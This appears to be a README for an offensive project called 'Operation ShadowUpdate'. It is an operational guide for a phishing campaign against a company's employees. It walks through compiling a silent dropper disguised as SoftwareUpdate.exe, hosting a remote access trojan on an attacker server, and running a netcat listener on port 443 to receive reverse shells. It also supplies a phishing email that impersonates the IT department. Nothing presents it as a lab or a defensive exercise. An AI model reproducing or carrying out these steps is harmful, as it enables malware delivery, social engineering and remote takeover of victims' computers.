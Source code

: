 # Operation ShadowUpdate

## Scenario
Company X employees are targeted via a phishing email disguised as a mandatory software update from IT. Victims download and run `SoftwareUpdate.exe`, a dropper that installs a custom RAT.

## Components
- **dropper.py** → Downloads + runs the RAT silently.
- **rat.py** → Persistent RAT with remote shell capability.
- **email_template.txt** → Phishing lure template.

## Prerequisites

- **Netcat (Ncat)**: Required to run the listener.
  - **Windows**: Download Ncat (via Nmap): https://nmap.org/download.html
  - **Linux**: Usually preinstalled. If not:
    ```bash
    sudo apt install netcat
    ```
  - **macOS**: Usually preinstalled. If not:
    ```bash
    brew install netcat
    ```

- **PyInstaller**: Required to build the executables (dropper + RAT).
  - All platforms:
    ```bash
    pip install pyinstaller
    ```
## Execution
1️⃣ Compile dropper + RAT to build a single silent exe for the dropper and the RAT (no need for python on target machine)
```bash
pyinstaller --onefile --noconsole --name SoftwareUpdate dropper.py
pyinstaller --onefile --noconsole rat.py
```
2️⃣ Host `rat.exe` (compiled RAT) on `http://yourserver.com/rat.exe`

3️⃣ On the attacker machine, run a Netcat listener to accept connections from the RAT:
```bash
nc -lvnp 443
```
Where:
- `-l` → Listen for incoming connections
- `-v` → Verbose output (shows connection info)
- `-n` → Do not resolve DNS (faster)
- `-p 443` → Listen on port 443 (must match RAT's configured port)

Ensure port 443 is open on the attacker's firewall/router.


4️⃣ Deliver `SoftwareUpdate.exe` (the dropper) to target using an email, or other social engineering method.

## Example Phishing Email
```
From: it-support@companyx.com
Subject: URGENT: Security Update Required

Dear employee,

A critical security patch is required. Download and run the attached SoftwareUpdate.exe immediately.
Trust us. We’re the IT department.

IT Security Team
Company X
```
